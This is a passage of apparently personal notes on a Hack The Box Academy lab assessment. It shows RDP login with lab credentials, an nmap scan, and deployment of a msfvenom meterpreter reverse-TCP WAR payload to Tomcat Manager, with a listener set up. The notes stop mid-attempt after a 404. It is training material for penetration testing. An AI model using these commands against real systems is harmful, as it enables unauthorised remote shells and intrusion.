

# Shells & Payloads - Live Engagement Assessment
## Scenario
Situation:
- Foothold established
- Initial recon performed

Tasks:
- Exploit a Windows Host / Server
- Exploit a Linux Host / Server
- Exploit a Web Application

## Action

Own ip `10.10.14.201`

Foothold ip: `10.129.204.126`

### RDP into foothold host

```shell
xfreerdp /v:10.129.204.126 /u:htb_student /p:HTB_@cademy_stdnt!
```
-> Got RDP Access:


Found some creds in access-creds.txt on Desktop


### 1. Question:
What is the hostname of Host-1?

-> Nmap Scan to get the host name:

```shell
sudo nmap -A -sV -T4 -Pn -p- -oN Host1.txt 172.16.1.11
```
I found in the result the hostname: SHELLS-WINSVR

### 2. Question:
What is the folder name under C:\Shares\...

For that we make use of the installed firefox instance and connect to the server on 8080 from the foothold.

```shell
firefox 172.16.1.11
```

Here we find the management overview page of Apache Tomcat:


Via the Manager App to which we can login with one of the found credentials we able to upload a WAR-File and deploy it on a specified path:


Now let's generate a WAR-File Payload:


! Need jsp_shell_reverse_tcp !

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f war -o payload.war

# Result

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of war file: 52168 bytes
Saved as: payload.war
```

Uploading the war file to test if upload works:


worked!

now let's start a meterpreter listener of the foodhold:

```shell
msf> use exploit/multi/handler
msf exploit(handler)> set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(handler)> set LHOST 172.16.1.5
msf exploit(handler)> set LPORT 444
msf exploit(handler)> exploit
```


Now I open the new route /payload and in the listener we get a shell:

- 404 on route /payload -> WHY?

```shell
